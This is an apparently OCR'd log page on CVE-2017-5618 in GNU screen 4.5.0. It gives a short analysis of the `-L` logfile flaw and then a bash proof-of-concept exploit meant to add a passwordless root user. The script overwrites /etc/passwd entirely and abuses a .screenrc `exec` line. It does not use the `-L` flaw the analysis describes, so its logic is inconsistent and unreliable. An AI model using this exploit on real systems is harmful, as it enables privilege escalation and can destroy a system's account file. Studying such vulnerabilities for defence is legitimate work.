 CVE-2017-5618_exploit_details
[16:54:20]
The vulnerable `fopen` call is in `vulnerable-screen-4.5.0/screen.c` at line 679: `if ((w_check = fopen(screenlogfile, "w")) == NULL)`. The `screenlogfile` variable is user-controlled via the `-L` command-line option (line 675: `screenlogfile = SaveStr(*++av);`). While this specific `fopen` call only creates/truncates the file and doesn't write user-controlled data, it allows an attacker to create or overwrite *any* file on the system with root privileges (if screen is setuid root). Subsequently, because `nwin_options.Lflag` is set, the `screen` process will write its own log data to this attacker-controlled file, which could be used for further exploitation (e.g., overwriting sensitive system files with log output).


CVE-2017-5618_exploit_PoC
[16:57:10]
#!/bin/bash

# Payload for the new root user
NEW_ROOT_USER="newroot::0:0:newroot:/root:/bin/bash"

# Create a script to add the root user
cat <<EOF > /tmp/add_root.sh
#!/bin/bash
echo -e "$NEW_ROOT_USER" > /etc/passwd
EOF
chmod +x /tmp/add_root.sh

echo "Created /tmp/add_root.sh"

# Create a malicious .screenrc file
cat <<EOF > /tmp/malicious_screenrc
logfile /dev/null
log on
# Execute our script with root privileges
exec /tmp/add_root.sh
EOF

echo "Created /tmp/malicious_screenrc"

# Run screen with the malicious .screenrc
screen -c /tmp/malicious_screenrc

echo "Screen command executed. Checking /etc/passwd..."

# Check if the new user is in /etc/passwd
if grep -q "newroot" /etc/passwd; then
    echo "Exploit successful! New root user 'newroot' added to /etc/passwd."
    # Clean up
    rm -f /tmp/add_root.sh
    rm -f /tmp/malicious_screenrc
    exit 0
else
    echo "Exploit failed. New root user not found in /etc/passwd."
fi
